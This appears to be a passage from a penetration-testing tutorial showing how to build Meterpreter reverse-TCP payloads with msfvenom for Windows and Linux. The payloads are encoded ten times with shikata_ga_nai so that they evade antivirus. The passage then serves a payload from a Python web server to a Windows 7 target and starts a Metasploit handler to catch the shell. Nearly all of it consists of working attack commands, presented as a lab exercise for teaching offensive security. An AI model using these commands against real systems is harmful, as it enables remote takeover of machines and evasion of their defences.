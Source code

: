 ```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
```

If you've paid close attention to the iterations output, we can pretty much encode our payload as many times as we want with `x86/shikata_ga_nai`. Increasing the number of iterations in regards to the encoder that we're utilizing will increase your chances of evading antiviruses. The more you encode it, or the more iterations you go through with encoding your payload with `x86/shikata_ga_nai`, the better chances you have of bypassing an antivirus. 

So we can specify the iterations. 

```
rm encodedx86.exe
```

And we're going to specify the iterations to 10.

`-i 10`: I would typically recommend 10 because anything after 10 will really not improve much or will really not help in regards to evading an antivirus. 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
```

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > ~/Desktop/Linux_Payloads/encodedx86
```

Now that we've taken a look at how to generate the encoded payloads, we can test this out.

```
cd Windows_Payloads/
```

Set up a simple web server to host that particular payload so that I can download it onto the Windows 7 targets.

```
sudo python -m SimpleHTTPServer 80
```

Set up the listener or the handler. We then need to set the payload that we used when we were generating our malicious payload. 

```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.5
set LPORT 1234
show options
run
```

Switch over to my Windows system.

```
http://10.10.10.5/
```
